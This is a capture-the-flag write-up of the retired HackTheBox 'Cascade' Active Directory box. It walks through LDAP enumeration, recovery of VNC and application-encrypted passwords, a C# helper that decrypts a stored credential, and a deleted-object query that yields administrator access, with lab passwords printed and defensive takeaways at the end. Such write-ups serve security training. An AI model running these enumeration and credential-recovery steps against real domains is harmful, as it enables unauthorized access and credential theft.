


+++
title = "Cascade — recovering secrets across an Active Directory lifecycle"
date = "2026-09-30"
date_source = "source-created"
platform = "HackTheBox"
box_status = "retired"
difficulty = "Medium"
tags = ["Windows", "Active Directory", "Reverse engineering", "Credential exposure"]
summary = "Anonymous LDAP access led to a chain of recoverable credentials: a VNC deployment file, a .NET audit utility, and a deleted account that exposed an administrator password."
draft = false
kind = "solve"
publication_approved = true
+++

## Overview

Cascade rewarded following the history of an environment. Each recovered credential opened a different administrative artifact, and each artifact explained where to look next. Starting without credentials, I reached confirmed domain administrator authentication through LDAP, SMB, a custom .NET application, and a deleted directory object.

The central issue was secret retention: passwords remained recoverable in live attributes, deployment files, application storage, and deleted objects. In the commands below, `$IP` is the assigned Cascade address; Bash commands run on the workstation and PowerShell commands run in the target's WinRM session.

| Stage | Evidence | Access gained |
| --- | --- | --- |
| Anonymous LDAP | `cascadeLegacyPwd` on a user | `r.thompson` network access |
| Data share | TightVNC registry export | `s.smith` and WinRM |
| Audit share | Database, executable, and crypto DLL | `ArkSvc` |
| Deleted object | Legacy password on `TempAdmin` | Administrator authentication |

## Finding the first credential

The service scan identified `CASC-DC1` in `cascade.local`, with Kerberos, LDAP, SMB, and WinRM exposed. Anonymous and guest SMB enumeration did not produce a useful opening. LDAP enumeration did.

```bash
ldapsearch -x -H ldap://$IP -b "DC=cascade,DC=local" "(objectClass=user)"
```

A custom attribute named `cascadeLegacyPwd` contained a base64 value. Decoding it produced a password that successfully authenticated as `r.thompson`. Base64 was only an encoding layer: anyone able to read the attribute could recover the secret.

```bash
printf '%s' 'clk0bjVldmE=' | base64 -d
nxc smb $IP -u r.thompson -p 'rY4n5eva' --shares
impacket-smbclient "cascade.local/r.thompson:rY4n5eva@$IP"
```

With those credentials, I enumerated SMB again. The newly accessible `Data` share contained `IT/Temp/s.smith/VNC Install.reg`, a TightVNC configuration export. Its password field consisted of hexadecimal bytes. I converted those bytes to a binary file and used `vncpwd` to recover the stored password.

In the SMB client, I selected `Data`, navigated to `IT/Temp/s.smith`, and downloaded `VNC Install.reg`. On the workstation, line 29 contained the password bytes:

```bash
sed -n '29p' 'VNC Install.reg' | cut -d: -f2 | sed 's/,//g' > password.hex
xxd -r -p password.hex > password.bin
./vncpwd password.bin
```

`xxd -r -p` converts the hexadecimal text directly to bytes; there is no need for an extra `echo` or command substitution.

The directory name supplied a candidate account, `s.smith`; successful authentication established password reuse rather than merely assuming it. This account also had WinRM access, giving me an interactive PowerShell session.

```bash
nxc winrm $IP -u s.smith -p 'sT333ve2'
evil-winrm -i $IP -u s.smith -p 'sT333ve2'
```

## Following the audit application

The `scriptPath` attribute for `s.smith` pointed to `MapAuditDrive.vbs`. Reading that script from `NETLOGON` revealed the `Audit$` share. Inside were `CascAudit.exe`, supporting DLLs, a batch launcher, and `DB/Audit.db`.

```powershell
Get-ADUser -Identity s.smith -Properties scriptPath
```

I connected to SMB as `s.smith` to retrieve the files:

```bash
impacket-smbclient "cascade.local/s.smith:sT333ve2@$IP"
```

Within that client:

```text
use NETLOGON
get MapAuditDrive.vbs
use Audit$
ls
```

Opening the database with SQLite exposed three tables: `DeletedUserAudit`, `Ldap`, and `Misc`. The LDAP table held an encrypted password for `ArkSvc`. Base64 decoding returned binary data, so decoding alone was insufficient. The adjacent application was the next useful source of evidence.

```bash
file DB/Audit.db
sqlite3 DB/Audit.db
```

At the SQLite prompt:

```sql
.tables
SELECT * FROM Ldap;
SELECT * FROM DeletedUserAudit;
```

```bash
ilspycmd -p -o ./decompiled CascAudit.exe
ilspycmd -p -o ./decompiled CascCrypto.dll
```

Decompilation exposed a hardcoded key passed to `Crypto.DecryptString`. The supporting DLL supplied the decryption implementation.



*The application distributed both the encrypted credential and the means to recover it.*

I used a small .NET console program to load `CascCrypto.dll` and invoke `DecryptString` with the stored ciphertext and recovered key. The resulting password authenticated as `ArkSvc`. Reusing the application's own routine avoided guessing its encryption parameters.

I created a console project, copied `CascCrypto.dll` into its directory, and replaced `Program.cs` with:

```csharp
using System;
using System.Reflection;

Assembly asm = Assembly.LoadFrom("CascCrypto.dll");
Type targetType = asm.GetType("CascCrypto.Crypto")!;
MethodInfo method = targetType.GetMethod(
    "DecryptString",
    BindingFlags.Public | BindingFlags.NonPublic |
    BindingFlags.Static | BindingFlags.Instance
)!;

object? result = method.Invoke(null, new object[] {
    "BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321"
});
Console.WriteLine(result);
```

From that project directory, I ran the program and validated the recovered password:

```bash
dotnet run
nxc smb $IP -u ArkSvc -p 'w3lc0meFr31nd'
evil-winrm -i $IP -u ArkSvc -p 'w3lc0meFr31nd'
```

## Recovering a deleted account's secret

`ArkSvc` belonged to the lab's `AD Recycle Bin` group and could inspect deleted objects. An earlier email in the Data share linked a temporary administrator account to the current administrator's password; the audit records also referenced `TempAdmin`.

From an `ArkSvc` PowerShell session, I queried that deleted object:

```powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects -Properties * |
    Where-Object { $_.samAccountName -like '*TempAdmin*' }
```

The result retained another `cascadeLegacyPwd`. On the workstation, I decoded it and tested the result against the administrator account:

```bash
printf '%s' 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
nxc smb $IP -u administrator -p 'baCT3r1aN00dles'
```

Authentication succeeded with administrative access, confirming that the deleted account's retained password was still valid for the live administrator account.



## Defensive takeaways

- Remove recoverable passwords from directory attributes and restrict anonymous directory reads.
- Treat deployment exports and audit shares as sensitive assets. Restrict access and rotate credentials exposed through them.
- Keep encryption keys separate from the applications and data available to ordinary users.
- Include deleted objects and historical configuration in credential exposure reviews. Deleting an account does not establish that every stored secret has disappeared.

## What I learned

The strongest leads came from relationships between artifacts: a user's logon script identified a share, the share supplied an application, and the application explained a database value. I also kept encoding and encryption separate throughout the investigation. A base64-looking value is a clue about representation, not proof that decoding it will produce a password.
